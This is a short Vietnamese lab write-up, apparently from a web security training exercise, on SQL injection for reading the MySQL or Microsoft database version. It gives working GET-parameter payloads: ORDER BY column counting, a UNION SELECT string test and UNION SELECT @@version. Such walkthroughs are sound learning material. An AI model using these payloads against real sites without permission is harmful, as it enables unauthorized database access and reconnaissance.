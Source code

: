 # SQL injection attack, querying the database type and version on MySQL and Microsoft

Bài lab này yêu cầu ta truy cập vào dữ liệu liên quan tới version của phiên bản MySQL, Microsoft.

Đầu tiên ta mở `Burpsuite` và thực hiện gửi request tới `Repeater` rồi tiến hành kiểm tra xem có bao nhiêu cột bằng cách thay đổi payload của `Get request` thành:
- `/filter?category=Gifts'+ORDER+BY+1#`
- `/filter?category=Gifts'+ORDER+BY+2#`
- `/filter?category=Gifts'+ORDER+BY+3#`(tới đây thì server error, vậy là chỉ có 2 cột)

Tiếp theo ta tiến hành kiểm tra kiểu dữ liệu trong cột xem có phải ở dạng chuỗi không(vì thông tiên phiên bản được hiển thị ở dạng chuỗi) với payload của `Get request` như sau:
- `/filter?category=Gifts'+UNION+SELECT+'abc',+'def'#`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134520173227937863/image.png)

Tiếp theo ta truy cập vào dữ liệu trong cột @@version và lấy thông tin thui:
- `/filter?category='+UNION+SELECT+@@version,NULL#`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134520961182482493/image.png)
